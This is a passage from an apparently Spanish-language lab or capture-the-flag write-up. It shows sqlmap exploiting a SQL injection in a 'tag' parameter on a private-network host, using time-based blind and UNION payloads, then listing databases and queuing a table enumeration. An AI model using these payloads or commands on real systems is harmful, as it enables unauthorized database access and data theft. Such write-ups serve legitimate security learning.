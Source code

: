 ```
    Payload: tag=sqli' UNION ALL SELECT NULL,CONCAT(0x71716b7071,0x51574e7344474e6e5a6d6f4641654d4b7a7744467477744d6b555775435062475542566b7a534b50,0x71766b7171),NULL-- -
---
[03:28:35] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[03:28:35] [INFO] fetching database names
available databases [2]:
[*] gallery
[*] information_schema

[03:28:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.5.42'

[*] ending @ 03:28:35 /2025-06-19/
```

Vemos que ha funcionado, por lo que nos interesa la `DDBB` llamada `gallery`, vamos a ver que tablas tiene.

```shell
sqlmap -r request.txt --dbs --batch -D gallery --threads 10 --tables
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___[(]_____ ___ ___  {1.9.2#stable}                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                    
|___|_  [.]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:32:18 /2025-06-19/

[03:32:18] [INFO] parsing HTTP request from 'request.txt'
[03:32:18] [INFO] resuming back-end DBMS 'mysql' 
[03:32:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tag (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tag=sqli' AND (SELECT 9943 FROM (SELECT(SLEEP(5)))KblS) AND 'bZbx'='bZbx

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: tag=sqli' UNION ALL SELECT NULL,CONCAT(0x71716b7071,0x51574e7344474e6e5a6d6f4641654d4b7a7744467477744d6b555775435062475542566b7a534b50,0x71766b7171),NULL-- -
---
[03:32:18] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[03:32:18] [INFO] fetching database names
available databases [2]:
```